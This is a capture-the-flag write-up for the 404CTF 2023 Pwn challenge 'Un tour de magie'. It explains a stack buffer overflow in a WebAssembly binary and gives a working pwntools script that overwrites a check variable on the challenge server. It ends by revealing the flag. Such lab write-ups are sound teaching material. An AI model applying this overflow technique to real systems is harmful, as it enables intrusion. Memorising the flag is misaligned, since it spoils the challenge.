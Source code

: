```yaml
---
title: CTFs | 404CTF_2023 | Pwn | Un tour de magie
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Stack, Heap]
permalink: /CTFs/404CTF_2023/Pwn/Un_tour_de_magie
---
```


# Un tour de magie

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/bfc3ecc5-ed76-46fe-8249-30142939e53b)

In this challenge, we are given [this](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/404CTF_2023/Pwn/tour-de-magie.zip) zip file containing the source code and the compiled code. 

The compiled code is a `WASM` file. `WASM` stands for` WebAssembly`, which is a binary instruction format designed for the web. `WebAssembly` is a low-level virtual machine that is designed to run efficiently on web browsers and provides a portable execution environment for web applications. It allows developers to write code in languages such as `C`, `C++`, and `Rust` and compile them into `WebAssembly`, which can then be executed in a web browser alongside JavaScript.

## How to exploit

As we can see in the main source code, we have an `input` variable that is of length `20`, but then the `fgets` take an input of `200`... There should be a possibility of buffer overflow here...

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/1affc23c-c7d6-42d2-9722-62d1ea081508)

We can first try to run with 21 `A`s, but we get the following error:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/72f67c7e-c95a-41d0-a3f4-562a5c572234)

This is because we didn't change the value of `check`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/e47893a5-f280-4440-9878-d404f224b2fd)

We can try to add more characters, and when we get to `23`, we get the result:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/d7c28ede-650d-4733-a857-daa3eff8fa78)

Which comes from:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ceb521c7-8728-496f-b2d3-1f1fd6504405)

## Create our payload

Now that we managed to modify the address of check, we need to modify it to `0x50bada55` to be able to get the flag. So let's try to put 19 `A`s and 4 `B`s where the `B`s are representing the address of `check` that we need to override:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/e14a1a84-2a66-46b8-8432-701dde962361)

As we can see, we don't have all the `B`s (42) at the end. So let's put 18 `A`s, 4 `B`s and 1 `C`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/91527337-5826-4770-b83b-caaaff67d889)


As we can see, we have two `B`s instead of one. We do the same thing until we get to 16 `A`s, 4 `B` and 3 `C`s:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/904e4288-dff6-4249-933e-f4f7883cec6f)


And now we have all the `B`s. We can now use the following code to do the same thing but automatically and send the payload to the netcat server!

```python
from pwn import *

# Establish the connection to the vulnerable C program
#io = process(['./wasmtime', 'main.wasm'])

io = remote("challenges.404ctf.fr", 30274)

# Craft the payload to set *check to 0x50bada55
payload = b'A' * 16  + p32(0x50bada55) + b"C" *3

print(io.recvline())
# Send the payload to the program
io.sendline(payload)

# Receive and print the program's output
output = io.recvline()
print(output)

if (b"Apparemment non" not in output):
	output = io.recvall()
	print("Flag :", output.decode())

# Close the connection
io.close()
```

We get the following result:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/064c3cc4-b342-4e75-87b3-ca65cce2935c)

The flag is `404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}`
